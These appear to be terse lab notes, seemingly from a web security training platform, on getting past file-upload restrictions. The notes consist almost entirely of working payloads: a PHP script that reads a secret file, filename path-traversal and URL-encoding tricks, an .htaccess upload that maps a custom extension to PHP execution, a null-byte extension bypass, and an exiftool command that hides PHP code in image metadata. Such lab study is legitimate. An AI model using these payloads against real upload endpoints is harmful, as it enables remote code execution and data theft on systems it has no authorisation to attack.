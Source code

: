 <?php echo file_get_contents('/home/carlos/secret'); ?>
GET /files/avatars/exploit.php HTTP/1.1

1) Content-Type to `image/jpeg`.
   
2) Content-Disposition: form-data; name="avatar"; `filename="../exploit.php"`.
   filename="..%2fexploit.php".
   GET /files/avatars/..%2fexploit.php
   
3) filename parameter to `.htaccess`;
   Content-Type header to text/plain'
   Replace the contents of the file (your PHP payload) with the following Apache directive: `AddType application/x-httpd-php .l33t`;
   Filename parameter from `exploit.php` to `exploit.l33t`;
   GET /files/avatars/exploit.l33t.
   
4) filename="exploit.php%00.jpg";
   GET /files/avatars/exploit.php;

5) `exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php`
   GET /files/avatars/polyglot.php.
